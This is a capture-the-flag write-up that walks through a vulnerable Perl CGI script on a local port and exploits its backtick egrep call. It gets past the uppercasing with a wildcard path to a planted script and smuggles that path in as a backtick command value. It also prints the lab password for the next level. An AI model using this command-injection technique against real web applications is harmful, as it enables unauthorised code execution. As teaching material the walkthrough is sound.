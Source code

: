 We have a `.pl` file here so let’s see what we have there:

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

It implements a simple `CGI` that processes web requests and sends an HTML response.

The function `t` takes 2 arguments

- `$xx = $_[0];` retrieves the first argument.
- `$xx =~ tr/a-z/A-Z/;` converts `$xx` to uppercase.
- `$xx =~ s/\s.*//;` removes everything from the first space onwards (if any).
- It runs the Unix command `egrep "^$xx" /tmp/xd 2>&1` to search the file `/tmp/xd` for lines starting with the modified `$xx`.
- The output is captured in the `@output` array.
- The script loops through each line in the `@output` array, splitting it on the first colon (`:`).
- It checks if the second part of the line (`$s`) matches the pattern stored in `$nn` (the second input argument).
- If a match is found, it returns `1`, indicating success.
- If no match is found after checking all lines, it returns `0`.

The function `n` takes one argument

- If the argument is `1`, it prints `".."` to the HTML output (indicating success).
- Otherwise, it prints `"."` (indicating failure).

How this works in less words:

 The script expects two parameters (`x` and `y`) to be provided via a web request, such as through a form submission or URL parameters (e.g., `localhost:4646?x=value1&y=value2`).

The parameter `x` is converted to uppercase, and everything after the first space is stripped.

The script looks for lines in the file `/tmp/xd` that start with the modified `x`.

If it finds a line, it checks if the second part of the line (after the colon `:`) matches the parameter `y`.

If the pattern is found, the script prints `".."` to the HTML output. If not, it prints `"."`.

As an example:

Assume the file `/tmp/xd` contains the following lines:

```perl
HELLO:world
GOODBYE:farewell
HI:there
```

f a user sends the parameters `x=hello` and `y=world`, the script would:

- Convert `hello` to `HELLO`.
- Search `/tmp/xd` for a line that starts with `HELLO`.
- Find the line `HELLO:world`, and since `world` matches the value of `y`, the script will print `".."`.

If the user sent `x=hi` and `y=someone`, the script would:

- Convert `hi` to `HI`.
- Find the line `HI:there`, but since `there` does not match `someone`, it would print `"."`.

———————————————————————————————————————

Knowing all this, let’s check if this is working.

Let’s send a request to that port:

```perl
curl -I localhost:4646
```

As expected we get a response header

We see that the content on `@output` variable will be executed so we could think that sending `getflag>/tmp/flag` should work, but since it is uppercased we would be trying to execute `GETFLAG>/TMP/FLAG` which wouldn’t be executed. Instead we will create a file that will be executed.

Because of the first regex we have to use a wildcard in our path to the file `/*/[EXPLOITFILE]`

```perl
cd /tmp
chmod 777 EXPLOIT
vim EXPLOIT

#!/bin/sh
getflag > /tmp/flag
```

Now let’s make the request

```perl
curl localhost:4646?x='`/*/EXPLOIT`'
cat /tmp/flag
```

There is the flag so let’s go to level13

```perl
su level13
Password: g1qKMiRpXf53AWhDaU7FEkczr
```